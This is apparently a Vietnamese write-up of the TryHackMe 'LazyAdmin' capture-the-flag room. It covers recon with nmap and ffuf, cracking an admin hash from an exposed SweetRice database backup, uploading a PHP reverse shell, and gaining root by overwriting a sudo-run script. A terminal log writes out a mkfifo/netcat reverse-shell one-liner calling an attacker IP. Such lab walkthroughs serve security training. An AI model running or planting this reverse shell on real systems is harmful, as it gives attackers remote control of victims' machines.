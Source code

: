 # [THM] LazyAdmin write-up

- IP: 10.10.183.130

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.183.130

![Nmap Scan](./img/nmap-scan.png)

Có 2 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 80 chạy dịch vụ HTTP 

Kiểm tra giao diện web thì chưa phát hiện điều gì bất thường ta tiếp tục scan thư mục ẩn bằng công cụ ffuf
> ffuf -u "http://10.10.183.130/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt

![Ffuf scan](./img/ffuf-scan.png)

Ở bước này ta chỉ thu thập được thông tin website sử dụng CMS SweetRice. Vậy nếu sử dụng CMS thì nó có thể sẽ còn một số thư mục ẩn khác (ví dụ: trang đăng nhập admin) nên ta tiếp tục scan bằng ffuf
> ffuf -u "http://10.10.183.130/content/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt

![Ffuf scan 2](./img/ffuf-scan2.png)

Không nằm ngoài dự đoán chúng ta đã tiếp tục thu thập được một số thư mục ẩn. Trong số thư mục ẩn trên ta khám phá và nhận thấy thư mục `/as` là trang đăng nhập admin, thừ mục `/inc` chứa rất nhiều thông tin nhạy cảm như database và cấu hình.

![Admin login](./img/admin-login.png)

![Include dir](./img/include-dir.png)

Trong thư mục `/inc` ta nhận thấy tiếp tục có thư mục `/mysql_backup` là nhạy cảm. Đúng là như vậy khi truy cập vào ta có thể lấy được file backup của database

![Database backup](./img/db-bk.png)

Trong file database backup ta đã tìm kiếm được thông tin về tài khoản và mật khẩu dưới dạng hash của admin 

Khi phân tích trên [cyberchef](https://gchq.github.io/CyberChef/#recipe=Analyse_hash()&input=NDJmNzQ5YWRlN2Y5ZTE5NWJmNDc1ZjM3YTQ0Y2FmY2I) và sau đó ta thực hiện decrypt ở [crackstation](https://crackstation.net/) để nhận mật khẩu bản rõ

![Cyber chef](./img/cyber-chef.png)
![Admin password](./img/admin-pass.png)

## Exploit

Đã đăng nhập được với tài khoản vừa tìm được. Tại dashboard ta nhận thấy có phần Ads và trong thư mục `inc` cũng có thư mục `/ads` vậy ta thử upload reverse shell lên xem sao. Nội dung file reverse shell đã có upload ở 1 số trước (Plotted-TMS)

Sau khi upload ta đã thấy file đã nằm trên server

![Shell php](./img/shell-php.png)

Tạo **netcat listener** trên máy attacker và truy cập vào file đó trên web ta đã nhận được shell và thực hiện tìm kiếm user flag

## user.txt

![User flag](./img/user-flag.png)

## Privilege escalation

![Sudo -l](./img/sudo-l.png)

Thực hiện kiểm tra và nhận thấy lệnh perl sẽ được thực hiện với quyền root mà không cần mật khẩu. Kiểm tra quyền và xem nội dung file `/home/itguy/backup.pl` để xem có thực hiện chỉnh sửa và leo thang đặc quyền được không

![Backup-pl](./img/bkpl.png)

Ta không có quyền chỉnh sửa file `backup.pl` nhưng trong nội dung file ta thấy có đề cập tới file `/etc/copy.sh` vậy ta tiếp tục làm điều tương tự với file đó

![Copy sh](./img/copy-sh.png)

Có thể thấy ta có quyền để tận dụng và sửa file `copy.sh` này để chèn reverse shell
```sh
www-data@THM-Chal:/etc$ cat copy.sh
cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
www-data@THM-Chal:/etc$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.113.26 4321 >/tmp/f" > copy.sh
<;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.113.26 4321 >/tmp/f" > copy.sh         
www-data@THM-Chal:/etc$ cat copy.sh
cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.113.26 4321 >/tmp/f
www-data@THM-Chal:/etc$ 
```
Sau đó tiếp tục tạo **netcat listener** trên máy attacker và chạy câu lệnh `sudo /usr/bin/perl /home/itguy/backup.pl` trên web shell. Ngay lập tức ta sẽ nhận được root shell

## root.txt
![Root flag](./img/root-flag.png)

